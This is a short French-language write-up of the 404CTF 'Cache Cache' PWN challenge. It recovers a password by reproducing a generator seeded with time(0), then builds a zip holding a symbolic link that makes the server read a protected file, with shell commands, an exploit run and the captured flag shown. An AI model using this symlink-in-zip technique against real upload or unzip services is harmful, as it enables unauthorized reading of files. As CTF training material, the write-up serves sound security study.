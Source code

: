 ## PWN / Cache Cache

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Un challenge dont le nom rappelle celui de l'édition précédente ... d'ailleurs en comparant je me suis aperçu que l'an passé j'étais passé à côté d'une solution plus simple

Le binaire est fourni : [cache_cache_le_retour](files/cache_cache_le_retour)


### Password

Tout d'abord, il faut deviner un mot de passe ... comme l'an passé

On retrouve dans le code les fonctions qui génèrent ce pass, et on peut les recoder : [gen_pwd.c](files/gen_pwd.c)

La graine de l'aléa est initialisée avec `time(0)`, il suffit de faire pareil.

### Le flag

Ensuite en étudiant le code, on peut voir que les données que l'on va transmettre vont être :
- décodées depuis du base64
- enregistrées comme un fichier zip
- dézippées
- la première ligne du fichier dézzippé est retournée

Cela rappelle une vulnérabilité sur les liens symboliques transmis par zip ...

On peut préparer un payload :

```bash
$ echo 'OKKKKKKKKKKKKKKKKK' > salle_au_tresor
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks test.zip surprise.txt
```

J'ai un peu tatonné pour trouver le fichier contenant le flag : `flag.txt`, `salle_au_tresor.txt`, finalement `salle_au_tresor` comme dans l'énoncé.

Pour envoyer tout ça le code complet : [exploit.py](files/exploit.py)

```bash
$ python3 exploit.py REMOTE

[+] Opening connection to challenges.404ctf.fr on port 31725: Done


404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}


[*] Closed connection to challenges.404ctf.fr port 31725
```
